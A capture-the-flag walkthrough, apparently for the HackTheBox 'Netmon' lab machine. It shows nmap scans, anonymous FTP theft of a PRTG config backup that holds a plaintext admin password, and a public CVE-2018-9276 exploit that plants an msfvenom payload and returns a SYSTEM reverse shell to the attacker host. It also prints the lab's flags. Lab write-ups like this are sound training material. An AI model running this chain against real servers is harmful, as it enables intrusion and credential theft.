

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Netmon


```bash
❯ nmap -p- --open -sS --min-rate 1000 -Pn -n 10.10.10.152 -oG allPorts
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-24 21:10 CET
Nmap scan report for 10.10.10.152
Host is up (0.087s latency).
Not shown: 63477 closed tcp ports (reset), 2045 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 25.47 seconds
```


```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.10.152
	[*] Open ports: 21,80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669

[*] Ports copied to clipboard
```


```bash
❯ nmap -sCV -p21,80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669 10.10.10.152 -A -oN targeted -oX targetedXMl
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-24 21:13 CET
Nmap scan report for 10.10.10.152
Host is up (0.091s latency).

PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_11-10-23  09:20AM       <DIR>          Windows
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: PRTG/18.1.37.13946
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Microsoft Windows 2016
OS CPE: cpe:/o:microsoft:windows_server_2016
OS details: Microsoft Windows Server 2016
Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 39s, deviation: 0s, median: 39s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-01-24T20:15:26
|_  start_date: 2025-01-24T20:09:23

TRACEROUTE (using port 139/tcp)
HOP RTT      ADDRESS
1   93.80 ms 10.10.16.1
2   42.57 ms 10.10.10.152

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 93.48 seconds
```


```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>




prtgadmin/prtgadmin


<figure><figcaption></figcaption></figure>


```bash
❯ ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49905|)
125 Data connection already open; Transfer starting.
02-02-19  11:18PM                 1024 .rnd
02-25-19  09:15PM       <DIR>          inetpub
07-16-16  08:18AM       <DIR>          PerfLogs
02-25-19  09:56PM       <DIR>          Program Files
02-02-19  11:28PM       <DIR>          Program Files (x86)
02-03-19  07:08AM       <DIR>          Users
11-10-23  09:20AM       <DIR>          Windows
226 Transfer complete.
```





<figure><figcaption></figcaption></figure>


```bash
ftp> cd "ProgramData\Paessler\PRTG Network Monitor"
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49936|)
125 Data connection already open; Transfer starting.
01-24-25  03:09PM       <DIR>          Configuration Auto-Backups
01-24-25  03:09PM       <DIR>          Log Database
02-02-19  11:18PM       <DIR>          Logs (Debug)
02-02-19  11:18PM       <DIR>          Logs (Sensors)
02-02-19  11:18PM       <DIR>          Logs (System)
01-24-25  03:09PM       <DIR>          Logs (Web Server)
01-24-25  03:09PM       <DIR>          Monitoring Database
02-25-19  09:54PM              1189697 PRTG Configuration.dat
02-25-19  09:54PM              1189697 PRTG Configuration.old
07-14-18  02:13AM              1153755 PRTG Configuration.old.bak
01-24-25  03:10PM              1640100 PRTG Graph Data Cache.dat
02-25-19  10:00PM       <DIR>          Report PDFs
02-02-19  11:18PM       <DIR>          System Information Database
02-02-19  11:40PM       <DIR>          Ticket Database
02-02-19  11:18PM       <DIR>          ToDo Database
226 Transfer complete.
```


```bash
ftp> get "PRTG Configuration.old.bak"
local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak
229 Entering Extended Passive Mode (|||49944|)
125 Data connection already open; Transfer starting.
100% |*********************************************|  1126 KiB    1.11 MiB/s    00:00 ETA
226 Transfer complete.
1153755 bytes received in 00:01 (1.06 MiB/s)
```


```bash
❯ cat PRTG\ Configuration.old.bak | grep -C 2  'prtgadmin'
            </dbcredentials>
            <dbpassword>
	     <!-- User: prtgadmin -->
	     PrTg@dmin2018
            </dbpassword>
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>





```bash
❯ git clone https://github.com/A1vinSmith/CVE-2018-9276.git; cd CVE-2018-9276
Clonando en 'CVE-2018-9276'...
remote: Enumerating objects: 61, done.
remote: Counting objects: 100% (61/61), done.
remote: Compressing objects: 100% (61/61), done.
remote: Total 61 (delta 19), reused 0 (delta 0), pack-reused 0 (from 0)
Recibiendo objetos: 100% (61/61), 20.57 KiB | 2.06 MiB/s, listo.
Resolviendo deltas: 100% (19/19), listo.
```


```bash
❯ python3 exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.16.5 --lport 443 --user prtgadmin --password PrTg@dmin2019
[+] [PRTG/18.1.37.13946] is Vulnerable!

[*] Exploiting [10.10.10.152:80] as [prtgadmin/PrTg@dmin2019]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] File staged at [C:\Users\Public\tester.txt] successfully with objid of [2018]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2018] staged for execution
[*] Generate msfvenom payload with [LHOST=10.10.16.5 LPORT=443 OUTPUT=/tmp/lbcrsykv.dll]
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 9216 bytes
/HackTheBox/Windows/Netmon/content/CVE-2018-9276/exploit.py:294: DeprecationWarning: setName() is deprecated, set the name attribute instead
  impacket.setName('Impacket')
/HackTheBox/WindowsNetmon/content/CVE-2018-9276/exploit.py:295: DeprecationWarning: setDaemon() is deprecated, set the daemon attribute instead
  impacket.setDaemon(True)
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Hosting payload at [\\10.10.16.5\RDDKZBLF]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Command staged at [C:\Users\Public\tester.txt] successfully with objid of [2019]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2019] staged for execution
[*] Attempting to kill the impacket thread
[-] Impacket will maintain its own thread for active connections, so you may find it's still listening on <LHOST>:445!
[-] ps aux | grep <script name> and kill -9 <pid> if it is still running :)
[-] The connection will eventually time out.

[+] Listening on [10.10.16.5:443 for the reverse shell!]
listening on [any] 443 ...
[*] Incoming connection (10.10.10.152,50211)
[*] AUTHENTICATE_MESSAGE (\,NETMON)
[*] User NETMON\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.152] 50212
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```


```powershell
C:\Users\Administrator\Desktop>type root.txt
type root.txt
d7ce13a72ca8a2cae123a666fbe37c8c

C:\Users\Administrator\Desktop>type C:\Users\Public\Desktop\user.txt
type C:\Users\Public\Desktop\user.txt
c9bb3ffd4f37e7cb2fea990be8fdf80a
```
